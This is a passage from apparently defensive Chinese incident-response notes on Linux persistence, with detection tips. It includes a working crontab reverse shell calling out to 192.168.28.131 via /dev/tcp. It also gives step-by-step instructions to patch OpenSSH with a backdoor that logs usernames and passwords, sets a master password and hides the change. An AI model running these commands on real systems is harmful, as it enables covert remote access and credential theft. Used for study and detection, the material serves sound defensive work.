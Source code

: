 ![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-5-1.png)

排查技巧：使用`alias`即可发现异常。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-5-2.png)

**7、crontab反弹shell**

crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。

a、创建shell脚本，例如在/etc/evil.sh

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345  0>&1
chmod +sx /etc/evil.sh
```

b、crontab -e 设置定时任务

```
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
```

重启crond服务，`service crond restart`，然后就可以用nc接收shell。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-6.png)

排查技巧：

```
# 查看可疑的定时任务列表
crontab -e
```

**8、openssh后门**

利用openssh后门，设置SSH后门密码及root密码记录位置，隐蔽性较强，不易被发现。

```
a、备份SSH配置文件
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old

b、解压并安装补丁
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff  /openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff

c、记录用户名和密码的文件位置及其密码
vi  includes.h
    #define ILOG "/tmp/1.txt"             //记录登录本机的用户名和密码
    #define OLOG "/tmp/2.txt"             //记录本机登录远程的用户名和密码
    #define SECRETPW "123456789"          //后门的密码

d、修改版本信息
vi version.h
    #define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
    #define SSH_PORTABLE "小版本号"

e、安装并编译
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make clean
make && make install
service sshd restart

f、对比原来的配置文件，使配置文件一致，然后修改文件日期。
```